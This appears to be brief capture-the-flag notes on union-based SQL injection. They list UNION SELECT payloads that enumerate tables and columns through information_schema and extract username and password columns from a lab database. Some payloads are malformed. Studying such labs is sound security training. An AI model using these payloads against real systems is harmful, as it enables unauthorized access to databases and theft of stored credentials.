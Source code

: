 # UNION BASED SQL INJECTION


## Flag
```
 here:
```

## Discovery

https://www.sqlinjection.net/table-names/

-1 UNION  SELECT table_name, NULL FROM information_schema.columns
-1 UNION SELECT First name, Surname FROM db_default
-1 UNION SELECT table_name, column_name FROM information_schema.columns 
-1 UNION SELECT table_name,  FROM information_schema.columns 
-1 UNION SELECT username, password FROM Member_Sql_Injection.db_default
